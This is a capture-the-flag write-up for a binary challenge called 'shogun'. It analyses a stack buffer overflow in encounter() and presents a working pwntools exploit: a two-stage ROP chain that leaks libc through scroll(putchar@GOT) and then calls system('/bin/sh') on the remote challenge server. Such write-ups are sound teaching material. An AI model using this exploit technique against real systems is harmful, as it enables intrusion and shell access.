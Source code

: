 # Analyzing the binary #

We are given both the source and the instructions to compile the binary. We see that **PIE** and **stack cookies** are disabled.

```
shogun: shogun.c
	@gcc shogun.c -o shogun -fno-stack-protector -no-pie -Wl,-z,relro,-z,now
```

Since we're provided with a Docker container, we also know the libc version. 

## checksec ##
Checksec also tells us that stack cookies and PIE are disabled.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## source code ## 
Looking at the source code, we see a couple of functions.

The **scroll()** function takes a pointer to a string and then prints out each character followed by a small delay.
```c
void scroll(char* txt) {
    size_t len = strlen(txt);
    for(size_t i = 0; i < len; i++) {
        char c = txt[i];
        putchar(c);
        usleep((c == '\n' ? 1000 : 50) * 1000);
    }
}
```

Next up is **encounter()**, this function is trivially vulnerable to a stack based buffer overflow: it reads up to 81 characters into a 32-byte buffer. 

```c
void encounter() {
    scroll(txt[1]);
    char buf2[32];
    fgets(buf2, 81, stdin);
}
```

Lastly there's **main()**, which basically calls the vulnerable function **encounter()** if its provided with the right input ("Look around.")

```c
int main() {
    setvbuf(stdout, 0, 2, 0);

    scroll(txt[0]);
    char buf1[24];
    fgets(buf1, 24, stdin);
    if(strncmp("Look around.", buf1, 12) == 0) {
        encounter();
        scroll(txt[3]);
    } else {
        scroll(txt[2]);
    }
}
```

# Exploitation #


## Patching the binary to remove usleep() ## 
We noticed that all the output of the program is done through **scroll()**, which adds a small delay throguh usleep(). To make our lifes a little bit easier while debugging and developing an exploit, we patch this function out with the following script:

```python
#!/usr/bin/env python3
from pwn import *
elf = ELF('./shogun')

#Nulify usleep function
elf.asm(elf.symbols['usleep'], 'ret')
elf.save('./shogun-patched')
```


## Exploitation Strategy ## 
The challenge constraints are as follows:
- We can hijack control flow through the buffer overflow 
- Since **PIE** is disabled, we know the addresses of ROP-gadgets so we can craft a ROP chain. 

Most often in these kind of buffer overflow challenges, the approach to getting a shell would be the following: 

- craft a first-stage ROP chain that calls a function like puts() or printf() with the address of a function in the GOT, like puts@got or printf@got. This will leak an address inside LIBC
- at the end of the first-stage ROP chain, return back into the start of the binary so it restarts and we can exploit the buffer overflow again
- craft a second-stage ROP chain that calls system("/bin/sh")

In this particular challenge we dont have access to a function like puts() or printf(), only putchar(), which does not take a pointer but a value. This means that we can't leak any memory contents. 

Luckily for us, the binary itself has the scroll() function, which does take a pointer. So instead of the usual puts(puts@GOT) we call scroll(putchar@GOT), which then leaks the address of putchar in libc.

## Exploit ## 

```python
#!/usr/bin/env python3 
from pwn import *

#r = process(["./ld-2.31.so","./shogun"], env={"LD_PRELOAD":"./libc-2.31.so"})
r = remote("pwn.chall.pwnoh.io", 13373)
e = ELF("./shogun")

r.sendlineafter(b"a disturbance. ", b"Look around.")


rop = ROP(e)

gadgets = [
    rop.find_gadget(["pop rdi", "ret"]).address, 
    e.got['putchar'],
    rop.find_gadget(["ret"]).address, 
    e.symbols['scroll'],
    e.symbols['_start'],
]

payload = b"".join(p64(gadget) for gadget in gadgets)
payload = b"A" * 40 + payload
print(payload)

info(f"sending stage 1..")
r.sendafter(b"He attacks you! ", payload)

sleep(5)
leak = u64(r.recv(6).ljust(8, b"\x00"))
info(f"putchar leak: {hex(leak)}")

r.sendlineafter(b"a disturbance. ", b"Look around.")

##################
e = ELF("./libc-2.31.so")
e.address = leak - e.symbols['putchar']

info(f"libc_base: {hex(e.address)}")

gadgets = [
    rop.find_gadget(["pop rdi", "ret"]).address, 
    next(e.search(b"/bin/sh\x00")),
    rop.find_gadget(["ret"]).address, 
    e.symbols['system']
]

payload = b"".join(p64(gadget) for gadget in gadgets)
payload = b"A" * 40 + payload
print(payload)


pause()
info(f"sending stage 2..")
r.sendlineafter(b"He attacks you! ", payload)

r.interactive()
```